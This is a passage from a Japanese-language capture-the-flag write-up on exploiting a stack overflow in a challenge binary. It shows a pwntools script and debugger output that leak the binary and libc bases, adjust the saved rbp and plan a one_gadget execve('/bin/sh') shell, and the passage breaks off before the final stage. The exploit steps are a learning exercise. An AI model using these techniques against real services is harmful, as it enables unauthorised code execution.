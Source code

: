 ともかく、次の`vuln`の実行では`'A'*56 + p64(elf.sym['vuln']+18)`を送信して、`ret`直後に残っている`rdi`を利用し、`vuln+18`こと`puts`の呼び出しに飛ばせる。
こうすると、`funlockfile`のアドレスがリークしたため、相対アドレスを引けば`libc`ベースが求まる。

問題は、この次が再実行されないこと。
退避されたrbpをどうにかして適当な値にしないと行けないらしいが意味がわらない
`elf.base + 0x5000 - 0x10`というアドレスにするらしい。
場所的にはread/writeな箇所のように見えるが、おそらくここはコード領域っぽくない。
```
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
             Start                End Perm     Size Offset File 
    0x604879d4d000     0x604879d4e000 r--p     1000      0 chall_patched
    0x604879d4e000     0x604879d4f000 r-xp     1000   1000 chall_patched
    0x604879d4f000     0x604879d50000 r--p     1000   2000 chall_patched
    0x604879d50000     0x604879d51000 r--p     1000   2000 chall_patched
    0x604879d51000     0x604879d54000 rw-p     3000   3000 chall_patched
    0x726a26800000     0x726a26828000 r--p    28000      0 libc.so.6
```
結局、バイナリのベース+`0x5000`に設定してみたら再度`vuln`+18から実行されて、もう一度入力を求められた。

最後に`one_gadget`する
```
0xebd3f execve("/bin/sh", rbp-0x50, [rbp-0x70])
constraints:
  address rbp-0x48 is writable
  rax == NULL || {rax, r12, NULL} is a valid argv
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL || [rbp-0x70] is a valid envp
```
とりあえず、`rbp`が指す先が`writable`なら良さそうなので、バイナリベース+`0x6000`にでも設定しておく。
リターンアドレスは`libc.address + 0xebd3f`に上書きすれば良い。

なぜかローカルでは動くが、コンテナでは動かなかった。
ここで、twitterでRW領域が`pwninit`でパッチされたものと異なっておりハマっている人を発見。
私の問題もそんな所だろうと考えて、2回目のペイロードの送信時の`saved-rbp`を上書きする値を`bss+0x100`に設定し、3回目の`one_gadget`のための`saved-rbp`を`bss+0x200`に設定しておくとうまく行った。

```python
from pwn import *
file = './chall_patched'
libc_file = './libc.so.6'
elf = context.binary = ELF(file)
libc = ELF(libc_file)
#p = process(file)
p = remote('localhost', '12300')

# calculate binary base
p.sendafter(b'> ', b'A'*56 + b'\x26')
p.recvuntil(b'\x26')
data = p.recvuntil(b'\n').strip()
data = int.from_bytes(data, byteorder='little')
retaddr = (data << 8) + 0x2b
elf.address = retaddr - 0x122b


# second vuln, calculate libc base
payload = b'A'*48 + p64(elf.bss()+0x100) + p64(elf.sym['vuln'] + 18)
p.sendafter(b'> ', payload)
p.recvuntil(b'\n')
funlockfile_leak = int.from_bytes(p.recv(6), byteorder='little')
libc.address = funlockfile_leak - libc.sym['funlockfile']
print(f'libc base: {hex(libc.address)}')
print(f'leak : {hex(funlockfile_leak)}')


# third vuln, begin fron vuln+18
```